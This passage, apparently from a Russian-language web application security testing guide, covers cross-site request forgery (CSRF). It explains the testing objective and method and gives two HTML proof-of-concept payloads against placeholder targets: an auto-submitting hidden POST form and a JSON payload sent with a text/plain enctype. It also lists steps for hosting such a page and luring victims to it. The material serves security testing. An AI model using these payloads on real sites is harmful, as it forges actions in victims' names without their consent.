 Самоуязвимые приложения, т.е. те, которые используются как в качестве вектора атаки, так и в качестве цели (например, приложения web-почты), усугубляют ситуацию. Поскольку пользователи входят в систему, когда читают свои email-сообщения, уязвимое приложение данного типа может позволить злоумышленникам выполнять такие действия, как удаление сообщений или отправка сообщений, которые, со стороны выглядят, как исходящие от жертвы.

## Задачи тестирования

- Определить, можно ли инициировать запросы от имени пользователя, которые не были инициированы этим пользователем.

## Как тестировать

Проведите аудит приложения, чтобы убедиться, что его управление сессиями уязвимо. Если управление сессиями опирается только на значения на стороне клиента (информация, доступная браузеру), то приложение уязвимо. Браузеру доступны cookie и учётные данные HTTP-аутентификации (Basic- и т.п.), но не доступны данные аутентификации на основе форм, которая выполняется на уровне приложения.

Ресурсы, доступные через HTTP-запросы GET, легко уязвимы, хотя запросы POST могут быть автоматизированы с помощью JavaScript и также уязвимы; следовательно, одного использования POST недостаточно для устранения уязвимостей CSRF.

В случае POST можно использовать следующий пример:

1. Создайте HTML-страницу, подобную той, что показана ниже.
2. Разместите HTML на вредоносном или стороннем сайте.
3. Отправьте ссылку на страницу жертве (жертвам) и побудите их перейти по ней.

```html
<html>
<body onload='document.CSRF.submit()'>

<form action='http://targetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

В случае web-приложений, в которых разработчики используют JSON для связи между браузером и сервером, может возникнуть проблема из-за отсутствия параметров запроса в формате JSON, которые необходимы для форм с автоотправкой данных. Чтобы обойти этот случай, мы можем использовать форму для автоотправки полезной нагрузки в JSON, включая скрытый ввод для эксплуатации CSRF. Нам придется изменить тип кодировки (`enctype`) на `text/plain`, чтобы обеспечить доставку нагрузки как есть. Код эксплойта будет выглядеть следующим образом:

```html
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```
